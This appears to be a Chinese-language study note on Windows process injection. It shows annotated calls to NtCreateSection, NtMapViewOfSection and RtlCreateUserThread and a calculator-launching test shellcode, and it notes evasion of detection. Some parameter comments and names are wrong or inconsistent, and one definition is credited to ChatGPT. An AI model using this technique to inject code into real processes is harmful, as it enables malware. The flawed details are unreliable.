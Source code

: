 ### NtCreateSection

```c
NtCreateSection(
&sectionHandle, 	// 接收节对象的句柄的 HANDLE 变量的指针
SECTION_MAP_READ|SECTION_MAP_WRITE|SECTION_MAP_EXECUTE, // 确定对对象的请求访问权限
NULL,							// 不使用文件映像，而是创建一个空的内存区域。
(PLARGE_INTEGER)&sectionSize, 	// 指定节的最大大小（以字节为单位）
PAGE_EXECUTE_READWRITE, 		// 指定要在节中的每个页面上放置的保护
SEC_COMMIT, 					// 分配属性的 SEC_XXX 标志的位掩码
NULL);							// 不适用额外的文件句柄。
```

### NtMapViewOfSection

这是一个未公开的api函数，这个函数在用户态下执行，而且不会被判断异常

```c
NtMapViewOfSection(
sectionHandle, 			// 要映射的内存区域的句柄。
GetCurrentProcess(), 	// 指定要映射到内存的句柄（这里就是自己的线程）
&localSectionAddress, 	// 用于接收映射到当前进程中的内存区域的起始地址。
NULL, 					// 不指定映射到当前进程中的起始地址
NULL, 					// 不指定映射到当前进程中的内存区域的大小
NULL, 					// 不指定内存区域的偏移量。
&size, 					// 用于接收内存区域的大小。
2, 						// 指定内存区域的类型，2 表示映射到当前进程的内存地址空间。
NULL, 					// 表示不指定任何额外的信息
PAGE_READWRITE);		// 内存页的保护模式，表示该内存页可读、可写。
```

这个函数的定义来自chatgpt，很佩服啊

### RtlCreateUserThread

这个函数需要引用ntdll.lib，但是仅限于x64的程序

```c
RtCreateUserThread(
targetHandle, 			// 指定要注入的进程的句柄
NULL, 					// 不指定线程的安全标志
FALSE, 					// 指定线程是否独占，FALSE 表示不独占
0, 						// 线程栈的大小，0表示默认的大小
0, 						// 线程的优先级，0表示默认
0, 						// 线程的初始挂起状态，0 表示线程在创建后立即开始执行
remoteSectionAddress, 	// 指定要执行的 shellcode 的起始地址，该地址在注入进程中
NULL, 					// 表示不指定线程的线程函数的参数
&targetThreadHandle, 	// 用于接收新创建的线程的句柄
NULL);					// 表示不接收线程的创建时间
```

测试的shellcode，还是弹出一个计算器的功能，仅限于**32位**的程序

```c
unsigned char shellcode[] = "\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8\xA0\x12\xC4\x76\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8\xF0\xE1\xC7\x76\xFF\xD0\x33\xC0\x50\xB8\x80\x59\xC4\x76\xFF\xD0\x90\x90\xC3";
```
